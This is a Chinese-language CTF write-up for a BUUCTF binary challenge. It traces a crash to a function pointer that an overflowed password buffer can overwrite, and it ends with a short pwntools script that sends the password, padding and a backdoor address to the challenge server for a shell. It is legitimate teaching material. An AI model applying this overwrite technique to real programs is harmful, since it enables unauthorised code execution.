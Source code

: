 ### 报错参数溯源

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67da600688c538a9b5c06971.png)

一开始就给出了账号密码，但是没什么用

![](https://pic1.imgdb.cn/item/67da601888c538a9b5c06975.png)

在 gdb 中调试发现最后报错了

![](https://pic1.imgdb.cn/item/67da608288c538a9b5c069fd.png)

倒着看 main 函数去跟踪最后一个 password_checker

![](https://pic1.imgdb.cn/item/67da60ea88c538a9b5c06adb.png)

回看之前 run 的时候打印的语句对的上

![](https://pic1.imgdb.cn/item/67da610688c538a9b5c06aed.png)

打印了两句然后报错，问题应该出在 `(**a1)();` 上

查看其汇编发现是 `call rax` 当作函数执行了

![](https://pic1.imgdb.cn/item/67da618688c538a9b5c06b0b.png)

回溯 rax 的值到了 rdi

![](https://pic1.imgdb.cn/item/67da65d388c538a9b5c06f00.png)

继续去主函数中找 rdi 的值又回到了 rax 中，在这之前调用了一个函数，跟进去看看

![](https://pic1.imgdb.cn/item/67da66ca88c538a9b5c074e7.png)

又是取了个地址给 rax

![](https://pic1.imgdb.cn/item/67da6aa688c538a9b5c08330.png)

解析伪代码就是 v2

![](https://pic1.imgdb.cn/item/67da6aed88c538a9b5c08358.png)

去看看 v2 的栈

![](https://pic1.imgdb.cn/item/67da6b0e88c538a9b5c08372.png)

给出了后门函数

![](https://pic1.imgdb.cn/item/67da6b2988c538a9b5c08382.png)

在 read_password 中读取了输入到 s 中

![](https://pic1.imgdb.cn/item/67da6d5388c538a9b5c08971.png)

查看缓冲区发现能覆盖 v2 的值

![](https://pic1.imgdb.cn/item/67da6db288c538a9b5c08d1b.png)

最后还调用了 snprintf() 函数，使用 `\x00` 截断

![](https://pic1.imgdb.cn/item/67da6fda88c538a9b5c0abfc.png)

构造 payloiad

```python
from pwn import *
 
r = remote('node5.buuoj.cn',29677)
 
backdoor = 0x400e88

r.sendlineafter(': ',b'admin')
r.sendlineafter(': ',b'2jctf_pa5sw0rd' + b'\x00' * 0x3a + p64(backdoor))
 
r.interactive()
```

